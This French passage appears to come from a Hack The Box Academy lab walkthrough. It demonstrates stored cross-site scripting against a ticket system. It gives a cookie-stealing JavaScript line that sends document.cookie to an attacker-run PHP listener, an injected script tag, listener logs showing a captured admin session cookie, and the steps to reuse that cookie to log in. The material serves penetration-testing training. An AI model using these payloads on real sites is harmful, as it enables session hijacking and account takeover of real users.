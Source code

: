 ```
nouvelle Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie

```

Ensuite, démarrez un serveur Web PHP sur votre hôte d'attaque comme suit :

```
sudo php -S 0.0.0.0:9200

```

Enfin, créez un nouveau ticket et soumettez ce qui suit dans le champ message :

Code : javascript

```
"><script src=http://10.10.14.15:9200/script.js></script>

```

Nous recevons un rappel sur notre serveur Web avec un cookie de session d'administrateur :

```
dsgsec@htb[/htb]$ sudo php -S 0.0.0.0:9200

[Mar 21 juin 00:33:27 2022] Le serveur de développement PHP 7.4.28 (http://0.0.0.0:9200) a démarré
[Mar 21 juin 00:33:42 2022] 10.129.203.101:40102 Accepté
[Mar 21 juin 00:33:42 2022] 10.129.203.101:40102 [200] : (null) /script.js
[Mar 21 juin 00:33:42 2022] 10.129.203.101:40102 Fermeture
[Mar 21 juin 00:33:43 2022] 10.129.203.101:40104 Accepté
[Mar 21 juin 00:33:43 2022] 10.129.203.101:40104 [500] : GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

<SNIP>

```

Ensuite, nous pouvons utiliser un plugin Firefox tel que [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search ) pour vous connecter à l'aide du cookie de session de l'administrateur.

![texte](https://academy.hackthebox.com/storage/modules/163/edit_cookie.png)

Cliquez sur le bouton Enregistrer pour enregistrer le cookie nommé `session` et cliquez sur `Connexion` en haut à droite. Si tout estfonctionne comme prévu, nous serons redirigés vers `http://support.inlanefreight.local/dashboard.php`. Prenez un peu de temps et enregistrez une autre découverte, `Cross-Site Scripting (XSS)`, en notant que la découverte est à haut risque car elle peut être utilisée pour voler la session d'un administrateur actif et accéder au système de file d'attente de tickets. Consultez le module [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) pour un rappel sur XSS et les différentes manières dont cette classe de vulnérabilités peut être exploitée, y compris le piratage de session.

* * * * *

tracking.inlanefreight.local
-------------------------------------
